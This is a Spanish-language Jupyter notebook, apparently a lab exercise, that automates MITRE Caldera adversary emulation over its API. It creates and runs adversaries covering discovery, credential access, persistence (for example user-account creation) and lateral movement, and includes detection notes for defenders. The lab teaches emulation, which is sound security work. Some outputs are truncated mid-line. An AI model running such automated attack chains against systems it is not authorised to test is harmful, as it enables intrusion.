    """Sondea el estado de una operación hasta que finalice o se alcance max_iter."""
    if not op_id:
        print(' ID de operación no disponible')
        return None
    print(f'⏳ Monitoreando operación {op_id}...')
    for i in range(max_iter):
        try:
            r = requests.get(f'{CALDERA_URL}/api/v2/operations/{op_id}',
                             headers=HEADERS, timeout=10)
            if r.status_code == 200:
                op = r.json()
                state  = op.get('state', 'unknown')
                chains = op.get('chain', [])
                done   = sum(1 for c in chains if c.get('finish'))
                total  = len(chains)
                print(f'  [{i+1:2d}/{max_iter}] Estado: {state:12s} | Pasos: {done}/{total}')
                if state in ('finished', 'complete', 'cleanup'):
                    print(f' Operación finalizada: {state}')
                    return op
            else:
                print(f'    HTTP {r.status_code}')
        except Exception as e:
            print(f'  Error de sondeo: {e}')
        time.sleep(sleep_sec)
    print('Tiempo máximo de espera alcanzado')
    return None

op_disc_result = poll_operation(op_disc_id)

⏳ Monitoreando operación 6459b103-80a9-41c5-9fd3-e9d0e2e7a951...
  [ 1/30] Estado: running      | Pasos: 0/1
  [ 2/30] Estado: running      | Pasos: 0/1
  [ 3/30] Estado: running      | Pasos: 0/1
  [ 4/30] Estado: running      | Pasos: 0/1
  [ 5/30] Estado: running      | Pasos: 1/2
  [ 6/30] Estado: running      | Pasos: 1/2
  [ 7/30] Estado: running      | Pasos: 1/2
  [ 8/30] Estado: running      | Pasos: 1/2
  [ 9/30] Estado: running      | Pasos: 1/2
  [10/30] Estado: running      | Pasos: 1/2
  [11/30] Estado: running      | Pasos: 1/2
  [12/30] Estado: running      | Pasos: 1/2
  [13/30] Estado: running      | Pasos: 1/2
  [14/30] Estado: running      | Pasos: 1/2
  [15/30] Estado: running      | Pasos: 1/2
  [16/30] Estado: running      | Pasos: 2/3
  [17/30] Estado: running      | Pasos: 2/3
  [18/30] Estado: running      | Pasos: 2/3
  [19/30] Estado: running      | Pasos: 2/3
  [20/30] Estado: running      | Pasos: 2/3
  [21/30] Estado: running      | Pasos: 2/3
  [22/30] E

### B.4 – Analizar Resultados

In [17]:
# ── B.4 Extraer y mostrar resultados de la operación ────────────────────────
def analyze_operation(op_data):
    """Analiza los resultados de una operación y muestra el resumen."""
    if not op_data:
        print('⚠️  Sin datos de operación para analizar')
        return []
    name   = op_data.get('name', 'N/A')
    state  = op_data.get('state', 'N/A')
    chains = op_data.get('chain', [])
    print(f'📊 Análisis de Operación: {name}')
    print(f'   Estado final: {state}')
    print(f'   Total de pasos: {len(chains)}')
    print()
    results = []
    for link in chains:
        ability  = link.get('ability', {})
        ab_name  = ability.get('name', 'N/A')[:45]
        tid      = ability.get('technique_id', 'N/A')
        tactic   = ability.get('tactic', 'N/A')
        status   = link.get('status', -1)
        output   = link.get('output', '') or ''
        icon     = '✅' if status == 0 else ('⏭️' if status == -3 else '❌')
        status_s = 'OK' if status == 0 else ('SKIP' if status == -3 else f'ERR({status})')
        print(f'  {icon} [{tid}] {ab_name}')
        print(f'      Táctica: {tactic} | Estado: {status_s}')
        if output:
            print(f'      Salida: {output[:120].strip()}')
        print()
        results.append({'ability': ab_name, 'technique_id': tid,
                        'tactic': tactic, 'status': status, 'output': output})
    return results

disc_results = analyze_operation(op_disc_result)

📊 Análisis de Operación: Lab-Op-Discovery-101440
   Estado final: finished
   Total de pasos: 3

  ✅ [T1033] Current User
      Táctica: discovery | Estado: OK
      Salida: True

  ✅ [T1082] Environment variables discovery on freebsd, m
      Táctica: discovery | Estado: OK
      Salida: True

  ❌ [T1082] FreeBSD List Kernel Modules
      Táctica: discovery | Estado: ERR(1)
      Salida: True



## Sección C: Operación Intermedia – Multi-Táctica 🎯

### C.1 – Diseño de Cadena de Ataque

Una cadena de ataque real sigue una secuencia lógica donde cada fase habilita la siguiente:

```
Discovery → Credential Access → Execution → Collection
   T1082        T1003              T1059        T1005
   T1057        T1003.001          T1059.004    T1074
   T1033
```

**¿Por qué este orden?**
1. **Discovery** primero: necesitamos conocer el entorno antes de actuar
2. **Credential Access**: obtener credenciales amplía el acceso
3. **Execution**: ejecutar payloads usando las credenciales obtenidas
4. **Collection**: recopilar datos valiosos para exfiltración posterior

**Tácticas MITRE ATT&CK involucradas:**
- `TA0007` Discovery – Conocer el entorno
- `TA0006` Credential Access – Obtener credenciales
- `TA0002` Execution – Ejecutar código
- `TA0009` Collection – Recopilar información

In [19]:
# ── C.2 VERIFICAR INDEPENDENCIA - Seleccionar abilities ALEATORIOS ───────────
import random
# ── C.2 Seleccionar abilities multi-táctica ──────────────────────────────────
multi_tactics = {'discovery', 'credential-access', 'execution', 'collection'}
target_ids_c  = {'T1057', 'T1083', 'T1005', 'T1003', 'T1059', 'T1074'}

multi_ab      = [a for a in abilities if a.get('tactic', '') in multi_tactics]
print(f'🎯 Abilities multi-táctica disponibles: {len(multi_ab)}')

print("🎲 Analizando y seleccionando abilities ALEATORIOS...\n")

# Inspeccionar estructura de requirements
print("Ejemplos de requirements:")
for ab in multi_ab[:3]:
    reqs = ab.get('requirements', [])
    print(f"  {ab.get('name', 'N/A')[:40]:40s} | requirements: {reqs}")

print("\n" + "="*80)

# Filtrar solo abilities SIN requirements (independientes)
multi_ab_independent = [a for a in multi_ab if not a.get('requirements', [])]
multi_ab_dependent = [a for a in multi_ab if a.get('requirements', [])]

print(f'\n📊 Abilities multi-táctica (LINUX):')
print(f'   Total          : {len(multi_ab)}')
print(f'   ✅ Independientes: {len(multi_ab_independent)} (sin dependencies)')
print(f'   🔗 Dependientes : {len(multi_ab_dependent)} (con dependencies)')

if multi_ab_dependent:
    print(f'\n⚠️  Abilities con dependencies (EXCLUIDOS):')
    for ab in multi_ab_dependent[:3]:
        reqs = ab.get('requirements', [])
        name = ab.get('name', 'N/A')[:40]
        print(f'   - {name:40s} | requiere: {reqs}')

# Seleccionar ALEATORIOS - distribuidos por táctica
multi_tactics = {'discovery', 'credential-access', 'execution', 'collection'}
selected_multi = []

# Agrupar por táctica
by_tactic = {tact: [] for tact in multi_tactics}
for ab in multi_ab_independent:
    tact = ab.get('tactic', '')
    if tact in by_tactic:
        by_tactic[tact].append(ab)

print(f'\n🎲 Seleccionando abilities ALEATORIOS por táctica:')
print('-'*80)

# Seleccionar aleatorios de cada táctica (máx 2 por táctica)
for tact in multi_tactics:
    ab_list = by_tactic.get(tact, [])
    if ab_list:
        # Seleccionar 1-2 aleatorios de esta táctica
        count = min(random.randint(1, 2), len(ab_list))
        random_abs = random.sample(ab_list, count)
        selected_multi.extend([ab.get('ability_id', '') for ab in random_abs])
        
        print(f'\n  {tact:25s}: Seleccionados {count}')
        for ab in random_abs:
            tid = ab.get('technique_id', '?')
            name = ab.get('name', 'N/A')[:38]
            print(f'    🎯 [{tid}] {name}')

print(f'\n✅ Total de abilities ALEATORIOS seleccionados: {len(selected_multi)}')
print(f'\n{"Técnica":12s} {"Nombre":40s} {"Táctica":25s}')
print('-'*85)

for abid in selected_multi:
    ab   = ab_index.get(abid, {})
    tid  = ab.get('technique_id', '?')
    name = ab.get('name', abid)[:38]
    tact = ab.get('tactic', '?')
    print(f'  {tid:10s} {name:40s} {tact:25s}')

print(f'\n🚀 Listos para crear adversario con {len(selected_multi)} abilities aleatorios e independientes')

🎯 Abilities multi-táctica disponibles: 737
🎲 Analizando y seleccionando abilities ALEATORIOS...

Ejemplos de requirements:
  ADFS token signing and encryption certif | requirements: []
  ADFS token signing and encryption certif | requirements: []
  ATHPowerShellCommandLineParameter -Comma | requirements: []


📊 Abilities multi-táctica (LINUX):
   Total          : 737
   ✅ Independientes: 724 (sin dependencies)
   🔗 Dependientes : 13 (con dependencies)

⚠️  Abilities con dependencies (EXCLUIDOS):
   - Account-type Admin Enumerator            | requiere: [{'module': 'plugins.stockpile.app.requirements.not_exists', 'relationship_match': [{'source': 'remote.host.fqdn', 'edge': 'has_admin'}]}, {'module': 'plugins.stockpile.app.requirements.basic', 'relationship_match': [{'source': 'backup.admin.ability', 'edge': 'first_failed'}]}, {'module': 'plugins.stockpile.app.requirements.basic', 'relationship_match': [{'source': 'domain.user.name', 'edge': 'has_password', 'target': 'domain.user.passwo

In [20]:
# ── C.2 Crear adversario 'Lab-MultiTactic' con abilities aleatorios ─────────
adv_multi_id = None

if len(selected_multi) > 0:
    adversary_multi = {
        'name': 'Lab-MultiTactic',
        'description': f'Adversario educativo: cadena multi-táctica ALEATORIA ({len(selected_multi)} abilities independientes)',
        'atomic_ordering': selected_multi
    }
    
    print(f'📋 Creando adversario:')
    print(f'   Nombre: {adversary_multi["name"]}')
    print(f'   Abilities: {len(selected_multi)}')
    print(f'   IDs: {selected_multi}')
    print()
    
    try:
        r = requests.post(f'{CALDERA_URL}/api/v2/adversaries',
                          headers=HEADERS,
                          json=adversary_multi,
                          timeout=10)
        if r.status_code in (200, 201):
            adv_m = r.json()
            adv_multi_id = adv_m.get('adversary_id', adv_m.get('id', ''))
            print(f'✅ Adversario creado correctamente')
            print(f'   Nombre: {adv_m.get("name")}')
            print(f'   ID: {adv_multi_id}')
            print(f'   Abilities: {len(adv_m.get("atomic_ordering", []))}')
        else:
            print(f'⚠️  Error: HTTP {r.status_code}')
            print(f'   Respuesta: {r.text[:300]}')
            adv_multi_id = None
    except Exception as e:
        print(f'❌ Error al crear adversario: {e}')
        adv_multi_id = None
else:
    print('⚠️  No hay abilities seleccionados')
    adv_multi_id = None

if adv_multi_id:
    print(f'\n🚀 Listo para ejecutar operación con adversario: {adv_multi_id}')
else:
    print('❌ No se puede continuar sin adversario válido')

📋 Creando adversario:
   Nombre: Lab-MultiTactic
   Abilities: 7
   IDs: ['137075767ba5b96cb3e0ea66e32d8ab5', '106045f14741390cfb3fe95300585fb6', 'c5951c819c5f6125e0e5987a12a344f9', '5fab72013505efcd896475f9fe06c280', 'b87adfc0c92e77845da477f44a4d1944', '214be4092770061080ef0781c26bab3e', '196263c4c1f42138866d958193ad2ad4']

✅ Adversario creado correctamente
   Nombre: Lab-MultiTactic
   ID: 9d7573ae-96f9-49bb-b28e-a9bf0c609f7f
   Abilities: 7

🚀 Listo para ejecutar operación con adversario: 9d7573ae-96f9-49bb-b28e-a9bf0c609f7f


In [21]:
# ── Obtener lista de planners disponibles ──────────────────────────────────
print("📋 Obteniendo planners disponibles...\n")

try:
    r = requests.get(f'{CALDERA_URL}/api/v2/planners',
                     headers=HEADERS,
                     timeout=10)
    if r.status_code == 200:
        planners_list = r.json()
        print(f'✅ Planners disponibles: {len(planners_list)}\n')
        
        planners_dict = {}
        for p in planners_list:
            planner_id = p.get('id', '')
            name = p.get('name', 'N/A')
            desc = p.get('description', 'Sin descripción')[:50]
            planners_dict[name] = planner_id
            
            print(f'  📌 Nombre: {name}')
            print(f'     ID: {planner_id}')
            print(f'     Descripción: {desc}')
            print()
    else:
        print(f'⚠️  Error: HTTP {r.status_code}')
except Exception as e:
    print(f'❌ Error: {e}')

# Mostrar cuál estamos usando
print('='*80)
print(f'🎯 PLANNER ACTUAL EN OPERACIONES: sequential')
print(f'   ID: aaa7c857-37a0-4c4a-85f7-4e9f7f30e31a')
print()
print('💡 OPCIONES:')
print('   - sequential: Ejecuta abilities uno tras otro (más lento, más seguro)')
print('   - batch: Ejecuta abilities en paralelo (más rápido, menos control)')

📋 Obteniendo planners disponibles...

✅ Planners disponibles: 6

  📌 Nombre: atomic
     ID: aaa7c857-37a0-4c4a-85f7-4e9f7f30e31a
     Descripción: During each phase of the operation, the atomic pla

  📌 Nombre: batch
     ID: 788107d5-dc1e-4204-9269-38df0186d3e7
     Descripción: During each phase of the operation, the batch plan

  📌 Nombre: bayes
     ID: 48e1a882-1606-4910-8f2d-2352eb80cba2.yml
     Descripción: The Bayes planner decides which links and abilitie

  📌 Nombre: buckets
     ID: f36c34f5-9439-4417-9640-fe83f4b7b12d
     Descripción: The buckets planner is a variant of the batch plan

  📌 Nombre: guided
     ID: 5bdec528-07ce-44cc-8997-09fe41aa2007
     Descripción: The guided planner will map between links likely t

  📌 Nombre: look ahead
     ID: 254c7035-de7d-4d76-a888-2c09ba594eca.yml
     Descripción: The look ahead planner decides what abilities to u

🎯 PLANNER ACTUAL EN OPERACIONES: sequential
   ID: aaa7c857-37a0-4c4a-85f7-4e9f7f30e31a

💡 OPCIONES:
   - sequenti

In [22]:
# ── C.3 FUNCIÓN + EJECUTAR Y MONITOREAR operación multi-táctica ─────────────

# 1. DEFINIR FUNCIÓN DE MONITOREO
def poll_operation_detailed(op_id, max_iter=60, sleep_sec=10):
    """Monitorea operación en tiempo real con detalles de cada paso ejecutado."""
    if not op_id:
        print('⚠️  ID de operación no disponible')
        return None
    
    print(f'⏳ Monitoreando operación {op_id}...')
    print(f'   Tiempo máximo: {max_iter * sleep_sec} segundos (~{(max_iter * sleep_sec) // 60} minutos)')
    print('='*80)
    
    for i in range(max_iter):
        try:
            r = requests.get(f'{CALDERA_URL}/api/v2/operations/{op_id}',
                             headers=HEADERS, timeout=15)
            if r.status_code == 200:
                op = r.json()
                state  = op.get('state', 'unknown')
                chains = op.get('chain', [])
                done   = sum(1 for c in chains if c.get('finish'))
                total  = len(chains)
                
                print(f'\n[{i+1:2d}/{max_iter}] Estado: {state.upper():12s} | Progreso: {done}/{total} pasos')
                print('-'*80)
                
                if chains:
                    for idx, chain in enumerate(chains, 1):
                        ability_id = chain.get('ability_id', 'N/A')
                        status = '✅' if chain.get('finish') else '⏳'
                        
                        ability_name = 'N/A'
                        for ab in abilities:
                            if ab.get('ability_id') == ability_id:
                                ability_name = ab.get('name', 'N/A')
                                break
                        
                        result = chain.get('output', '')
                        if result:
                            print(f'  {status} [{idx}] {ability_name}')
                            print(f'       Resultado: {result[:150]}')
                        else:
                            print(f'  {status} [{idx}] {ability_name}')
                
                agents = op.get('agents', [])
                if agents:
                    print(f'\n🤖 Agentes participantes:')
                    for ag in agents:
                        print(f'   - {ag.get("paw", "N/A")} ({ag.get("host", "N/A")})')
                
                if state in ('finished', 'complete', 'cleanup'):
                    print('\n' + '='*80)
                    print(f'✅ OPERACIÓN FINALIZADA: {state.upper()}')
                    print(f'   Pasos completados: {done}/{total}')
                    print('='*80)
                    return op
            else:
                print(f'  ⚠️  Error HTTP {r.status_code}')
        except Exception as e:
            print(f'  ❌ Error de consulta: {e}')
        
        if i < max_iter - 1:
            print(f'\n⏱️  Esperando {sleep_sec}s...')
            time.sleep(sleep_sec)
    
    print('\n' + '='*80)
    print('⚠️  TIEMPO MÁXIMO ALCANZADO')
    print('='*80)
    return None

# 2. EJECUTAR OPERACIÓN
print('✅ Función definida. Iniciando operación...\n')

op_multi_id = None
op_multi_result = None
ts_start = datetime.now()

if adv_multi_id:
    operation_multi = {
        'name': f'Lab-Op-MultiTactic-{ts_start.strftime("%H%M%S")}',
        'adversary': {'adversary_id': adv_multi_id},
        'planner':   {'id': 'aaa7c857-37a0-4c4a-85f7-4e9f7f30e31a'},
        'group':     first_group,
        'auto_close': True,
        'state':     'running'
    }
    
    print(f'📋 Iniciando operación:')
    print(f'   Nombre: {operation_multi["name"]}')
    print(f'   Adversario: {adv_multi_id}')
    print(f'   Grupo: {first_group}')
    print()
    
    try:
        r = requests.post(f'{CALDERA_URL}/api/v2/operations',
                          headers=HEADERS,
                          json=operation_multi,
                          timeout=10)
        if r.status_code in (200, 201):
            op_multi_data = r.json()
            op_multi_id   = op_multi_data.get('id', '')
            print(f'✅ Operación iniciada: {op_multi_data.get("name")} (ID: {op_multi_id})')
            print()
        else:
            print(f'⚠️  Error HTTP {r.status_code}')
            print(f'   {r.text[:200]}')
    except Exception as e:
        print(f'❌ Error: {e}')

# 3. MONITOREAR
if op_multi_id:
    print('='*80)
    print(f'🚀 INICIANDO MONITOREO DETALLADO')
    print('='*80)
    op_multi_result = poll_operation_detailed(op_multi_id, max_iter=90, sleep_sec=10)
    
    ts_end = datetime.now()
    duracion = (ts_end - ts_start).total_seconds()
    print(f'\n⏱️  DURACIÓN TOTAL: {int(duracion)}s ({int(duracion//60)}m {int(duracion%60)}s)')
else:
    print('❌ No se pudo iniciar operación')

✅ Función definida. Iniciando operación...

📋 Iniciando operación:
   Nombre: Lab-Op-MultiTactic-102230
   Adversario: 9d7573ae-96f9-49bb-b28e-a9bf0c609f7f
   Grupo: red

✅ Operación iniciada: Lab-Op-MultiTactic-102230 (ID: 7521840c-1af6-4e64-aa64-207e38af55a9)

🚀 INICIANDO MONITOREO DETALLADO
⏳ Monitoreando operación 7521840c-1af6-4e64-aa64-207e38af55a9...
   Tiempo máximo: 900 segundos (~15 minutos)

[ 1/90] Estado: RUNNING      | Progreso: 0/0 pasos
--------------------------------------------------------------------------------

⏱️  Esperando 10s...

[ 2/90] Estado: RUNNING      | Progreso: 0/1 pasos
--------------------------------------------------------------------------------
  ⏳ [1] N/A
       Resultado: False

⏱️  Esperando 10s...

[ 3/90] Estado: RUNNING      | Progreso: 1/2 pasos
--------------------------------------------------------------------------------
  ✅ [1] N/A
       Resultado: True
  ⏳ [2] N/A
       Resultado: False

⏱️  Esperando 10s...

[ 4/90] Estado: RUNNIN

## Sección D: Operación Avanzada – Persistencia y Movimiento Lateral 🔗

### D.1 – Establecer Persistencia

La persistencia garantiza que el atacante mantenga acceso aunque el sistema se reinicie.

**Técnicas de Persistencia:**
| Técnica | ID | Método | Detección |
|---------|-----|--------|-----------|
| Scheduled Task/Job | T1053 | Cron, at, systemd timers | auditd, /var/log/cron |
| Boot/Logon Autostart | T1547 | ~/.bashrc, /etc/rc.local | File integrity monitoring |
| Create Account | T1136 | Añadir usuario oculto | /etc/passwd, useradd logs |

**Perspectiva Blue Team – Detección:**
- Monitorizar modificaciones en archivos de arranque (`/etc/cron*`, `~/.bashrc`)
- Alertar sobre nuevas tareas cron con auditd
- IDS signatures para descarga de payloads

In [23]:
# ── D.1 PERSISTENCIA AVANZADA - CON VERIFICACIÓN API ───────────────────────
print("🔒 OPERACIÓN D.1: PERSISTENCIA AVANZADA\n")

# Filtrar abilities de persistencia LINUX sin requirements no solucionables
persist_ab = [a for a in abilities 
              if a.get('tactic', '') == 'persistence'
              and any('linux' in str(e.get('platform', '')).lower() 
                     for e in a.get('executors', []) if isinstance(e, dict))]

print(f'📊 Abilities de persistencia (LINUX): {len(persist_ab)}\n')

# Analizar requirements
persist_with_reqs = []
persist_no_reqs = []

for ab in persist_ab:
    reqs = ab.get('requirements', [])
    if reqs:
        persist_with_reqs.append(ab)
    else:
        persist_no_reqs.append(ab)

print(f'   ✅ Sin requirements (independientes): {len(persist_no_reqs)}')
print(f'   🔗 Con requirements (dependientes): {len(persist_with_reqs)}')

# ESTRATEGIA AVANZADA: Cadena compatible
selected_persist = []

# Paso 1: Base (sin requirements)
if persist_no_reqs:
    base_count = min(random.randint(1, 2), len(persist_no_reqs))
    base_abs = random.sample(persist_no_reqs, base_count)
    selected_persist.extend([ab.get('ability_id', '') for ab in base_abs])
    print(f'\n📌 Paso 1 - Base (sin dependencies): {base_count} abilities')
    for ab in base_abs:
        print(f'   ✅ {ab.get("technique_id", "?")} - {ab.get("name", "N/A")[:45]}')

# Paso 2: Avanzados (con requirements resolubles)
valid_with_reqs = []
for ab in persist_with_reqs:
    reqs = ab.get('requirements', [])
    if any(req in selected_persist or req == 'paw' for req in reqs):
        valid_with_reqs.append(ab)

if valid_with_reqs:
    advanced_count = min(random.randint(1, 3), len(valid_with_reqs))
    advanced_abs = random.sample(valid_with_reqs, advanced_count)
    selected_persist.extend([ab.get('ability_id', '') for ab in advanced_abs])
    print(f'\n📌 Paso 2 - Avanzados (con dependencies resolubles): {advanced_count} abilities')
    for ab in advanced_abs:
        reqs = ab.get('requirements', [])
        print(f'   🔗 {ab.get("technique_id", "?")} - {ab.get("name", "N/A")[:35]} | requiere: {reqs}')

# Agregar más si es necesario
while len(selected_persist) < 5 and persist_no_reqs:
    ab = random.choice(persist_no_reqs)
    abid = ab.get('ability_id', '')
    if abid not in selected_persist:
        selected_persist.append(abid)

print(f'\n✅ Total abilities PERSISTENCIA: {len(selected_persist)}')

# ============================================================================
# 1. CREAR ADVERSARIO
# ============================================================================
print('\n' + '='*80)
print('📝 CREANDO ADVERSARIO EN CALDERA...')
print('='*80)

adv_persist_id = None
adversary_persist = {
    'name': 'Lab-Persistence-Advanced',
    'description': f'Adversario avanzado: persistencia con {len(selected_persist)} abilities en cadena compatible',
    'atomic_ordering': selected_persist
}

try:
    r = requests.post(f'{CALDERA_URL}/api/v2/adversaries',
                      headers=HEADERS,
                      json=adversary_persist,
                      timeout=10)
    
    if r.status_code in (200, 201):
        adv_persist = r.json()
        adv_persist_id = adv_persist.get('adversary_id', adv_persist.get('id', ''))
        print(f'✅ POST exitoso - Adversario creado')
        print(f'   HTTP {r.status_code}')
        print(f'   ID: {adv_persist_id}')
    else:
        print(f'❌ Error en POST - HTTP {r.status_code}')
        print(f'   {r.text[:300]}')
        adv_persist_id = None
except Exception as e:
    print(f'❌ Error en POST: {e}')
    adv_persist_id = None

# ============================================================================
# 2. VERIFICAR CON GET (Consultar en API)
# ============================================================================
if adv_persist_id:
    print('\n' + '-'*80)
    print('🔍 VERIFICANDO CREACIÓN EN CALDERA (GET)...')
    print('-'*80)
    
    try:
        r_verify = requests.get(f'{CALDERA_URL}/api/v2/adversaries/{adv_persist_id}',
                                headers=HEADERS,
                                timeout=10)
        
        if r_verify.status_code == 200:
            adv_data = r_verify.json()
            print(f'✅ GET exitoso - Adversario verificado en Caldera')
            print(f'   HTTP {r_verify.status_code}\n')
            
            # Mostrar detalles
            print('📋 DETALLES DEL ADVERSARIO:')
            print(f'   Nombre: {adv_data.get("name", "N/A")}')
            print(f'   ID: {adv_data.get("adversary_id", adv_data.get("id", "N/A"))}')
            print(f'   Descripción: {adv_data.get("description", "N/A")[:70]}...')
            print(f'   Abilities: {len(adv_data.get("atomic_ordering", []))}')
            print(f'   Creado: {adv_data.get("created", "N/A")}')
            
            # Listar abilities
            atomic_ordering = adv_data.get('atomic_ordering', [])
            print(f'\n🎯 ABILITIES INCLUIDOS ({len(atomic_ordering)}):')
            for idx, ability_id in enumerate(atomic_ordering, 1):
                ab = ab_index.get(ability_id, {})
                tid = ab.get('technique_id', '?')
                name = ab.get('name', ability_id)[:50]
                print(f'   {idx}. [{tid}] {name}')
            
            print(f'\n✅ VERIFICACIÓN COMPLETADA - Adversario ACTIVO en Caldera')
        else:
            print(f'⚠️  Error en GET - HTTP {r_verify.status_code}')
            print(f'   {r_verify.text[:300]}')
    except Exception as e:
        print(f'❌ Error en GET: {e}')
else:
    print('\n❌ No se puede verificar - Adversario no fue creado')

print('\n' + '='*80)
if adv_persist_id:
    print(f'🚀 OPERACIÓN D.1 LISTA - ID: {adv_persist_id}')
else:
    print('❌ OPERACIÓN D.1 FALLIDA')
print('='*80)

🔒 OPERACIÓN D.1: PERSISTENCIA AVANZADA

📊 Abilities de persistencia (LINUX): 8

   ✅ Sin requirements (independientes): 8
   🔗 Con requirements (dependientes): 0

📌 Paso 1 - Base (sin dependencies): 2 abilities
   ✅ T1136.001 - Create a user account on a Linux system
   ✅ T1136.001 - Create a new user in FreeBSD with `root` GID.

✅ Total abilities PERSISTENCIA: 5

📝 CREANDO ADVERSARIO EN CALDERA...
✅ POST exitoso - Adversario creado
   HTTP 200
   ID: dcbc0cb1-896b-4c8f-9553-7194f0050e49

--------------------------------------------------------------------------------
🔍 VERIFICANDO CREACIÓN EN CALDERA (GET)...
--------------------------------------------------------------------------------
✅ GET exitoso - Adversario verificado en Caldera
   HTTP 200

📋 DETALLES DEL ADVERSARIO:
   Nombre: Lab-Persistence-Advanced
   ID: dcbc0cb1-896b-4c8f-9553-7194f0050e49
   Descripción: Adversario avanzado: persistencia con 5 abilities en cadena compatible...
   Abilities: 5
   Creado: N/A

🎯 ABILITIE

### D.2 – Movimiento Lateral

El movimiento lateral permite al atacante expandirse a otros sistemas en la red.

**Requisitos para movimiento lateral:**
- Al menos dos agentes registrados en hosts diferentes
- Credenciales válidas (obtenidas en fase de Credential Access)
- Conectividad de red entre los hosts

**Técnicas:**
| Técnica | ID | Descripción |
|---------|-----|-------------|
| Remote Services – SSH | T1021.004 | Conectar vía SSH con credenciales robadas |
| Lateral Tool Transfer | T1570 | Copiar herramientas al sistema destino |
| Remote Services | T1021 | RDP, SMB, WinRM |

In [24]:
# ── D.2 MOVIMIENTO LATERAL AVANZADO - CON VERIFICACIÓN API ─────────────────
print("🔀 OPERACIÓN D.2: MOVIMIENTO LATERAL AVANZADO\n")

# Filtrar abilities de movimiento lateral LINUX
lateral_ab = [a for a in abilities 
              if a.get('tactic', '') == 'lateral-movement'
              and any('linux' in str(e.get('platform', '')).lower() 
                     for e in a.get('executors', []) if isinstance(e, dict))]

print(f'📊 Abilities de movimiento lateral (LINUX): {len(lateral_ab)}\n')

# Analizar requirements
lateral_with_reqs = []
lateral_no_reqs = []

for ab in lateral_ab:
    reqs = ab.get('requirements', [])
    if reqs:
        lateral_with_reqs.append(ab)
    else:
        lateral_no_reqs.append(ab)

print(f'   ✅ Sin requirements (independientes): {len(lateral_no_reqs)}')
print(f'   🔗 Con requirements (dependientes): {len(lateral_with_reqs)}')

# ESTRATEGIA AVANZADA
selected_lateral = []

# Paso 1: Base (sin requirements)
if lateral_no_reqs:
    base_count = min(random.randint(1, 2), len(lateral_no_reqs))
    base_abs = random.sample(lateral_no_reqs, base_count)
    selected_lateral.extend([ab.get('ability_id', '') for ab in base_abs])
    print(f'\n📌 Paso 1 - Base (sin dependencies): {base_count} abilities')
    for ab in base_abs:
        print(f'   ✅ {ab.get("technique_id", "?")} - {ab.get("name", "N/A")[:45]}')
else:
    print(f'\n⚠️  Paso 1 - Sin abilities independientes disponibles')

# Paso 2: Avanzados (con requirements resolubles)
valid_with_reqs = []
for ab in lateral_with_reqs:
    reqs = ab.get('requirements', [])
    if any(req in selected_lateral or req == 'paw' for req in reqs):
        valid_with_reqs.append(ab)

if valid_with_reqs:
    advanced_count = min(random.randint(1, 3), len(valid_with_reqs))
    advanced_abs = random.sample(valid_with_reqs, advanced_count)
    selected_lateral.extend([ab.get('ability_id', '') for ab in advanced_abs])
    print(f'\n📌 Paso 2 - Avanzados (con dependencies resolubles): {advanced_count} abilities')
    for ab in advanced_abs:
        reqs = ab.get('requirements', [])
        print(f'   🔗 {ab.get("technique_id", "?")} - {ab.get("name", "N/A")[:35]} | requiere: {reqs}')
else:
    print(f'\n⚠️  Paso 2 - Sin abilities avanzados disponibles')

# Paso 3: Completar si es necesario (agregar más independientes)
if len(selected_lateral) < 5 and lateral_no_reqs:
    remaining = [ab for ab in lateral_no_reqs 
                 if ab.get('ability_id', '') not in selected_lateral]
    if remaining:
        additional_count = min(len(remaining), 5 - len(selected_lateral))
        additional_abs = random.sample(remaining, additional_count)
        selected_lateral.extend([ab.get('ability_id', '') for ab in additional_abs])
        print(f'\n📌 Paso 3 - Completar (más independientes): {additional_count} abilities')
        for ab in additional_abs:
            print(f'   ✅ {ab.get("technique_id", "?")} - {ab.get("name", "N/A")[:45]}')
    else:
        print(f'\n⚠️  Paso 3 - No hay más abilities disponibles')

print(f'\n✅ Total abilities MOVIMIENTO LATERAL: {len(selected_lateral)}')
print(f'   (Máximo disponible: {len(lateral_ab)})')

# ============================================================================
# 1. CREAR ADVERSARIO
# ============================================================================
print('\n' + '='*80)
print('📝 CREANDO ADVERSARIO EN CALDERA...')
print('='*80)

adv_lateral_id = None
adversary_lateral = {
    'name': 'Lab-LateralMovement-Advanced',
    'description': f'Adversario avanzado: movimiento lateral con {len(selected_lateral)} abilities en cadena compatible',
    'atomic_ordering': selected_lateral
}

try:
    r = requests.post(f'{CALDERA_URL}/api/v2/adversaries',
                      headers=HEADERS,
                      json=adversary_lateral,
                      timeout=10)
    
    if r.status_code in (200, 201):
        adv_lateral = r.json()
        adv_lateral_id = adv_lateral.get('adversary_id', adv_lateral.get('id', ''))
        print(f'✅ POST exitoso - Adversario creado')
        print(f'   HTTP {r.status_code}')
        print(f'   ID: {adv_lateral_id}')
    else:
        print(f'❌ Error en POST - HTTP {r.status_code}')
        print(f'   {r.text[:300]}')
        adv_lateral_id = None
except Exception as e:
    print(f'❌ Error en POST: {e}')
    adv_lateral_id = None

# ============================================================================
# 2. VERIFICAR CON GET
# ============================================================================
if adv_lateral_id:
    print('\n' + '-'*80)
    print('🔍 VERIFICANDO CREACIÓN EN CALDERA (GET)...')
    print('-'*80)
    
    try:
        r_verify = requests.get(f'{CALDERA_URL}/api/v2/adversaries/{adv_lateral_id}',
                                headers=HEADERS,
                                timeout=10)
        
        if r_verify.status_code == 200:
            adv_data = r_verify.json()
            print(f'✅ GET exitoso - Adversario verificado en Caldera')
            print(f'   HTTP {r_verify.status_code}\n')
            
            print('📋 DETALLES DEL ADVERSARIO:')
            print(f'   Nombre: {adv_data.get("name", "N/A")}')
            print(f'   ID: {adv_data.get("adversary_id", adv_data.get("id", "N/A"))}')
            print(f'   Descripción: {adv_data.get("description", "N/A")[:70]}...')
            print(f'   Abilities: {len(adv_data.get("atomic_ordering", []))}')
            print(f'   Creado: {adv_data.get("created", "N/A")}')
            
            atomic_ordering = adv_data.get('atomic_ordering', [])
            print(f'\n🎯 ABILITIES INCLUIDOS ({len(atomic_ordering)}):')
            for idx, ability_id in enumerate(atomic_ordering, 1):
                ab = ab_index.get(ability_id, {})
                tid = ab.get('technique_id', '?')
                name = ab.get('name', ability_id)[:50]
                print(f'   {idx}. [{tid}] {name}')
            
            print(f'\n✅ VERIFICACIÓN COMPLETADA - Adversario ACTIVO en Caldera')
        else:
            print(f'⚠️  Error en GET - HTTP {r_verify.status_code}')
    except Exception as e:
        print(f'❌ Error en GET: {e}')
else:
    print('\n❌ No se puede verificar - Adversario no fue creado')

print('\n' + '='*80)
if adv_lateral_id:
    print(f'🚀 OPERACIÓN D.2 LISTA - ID: {adv_lateral_id}')
else:
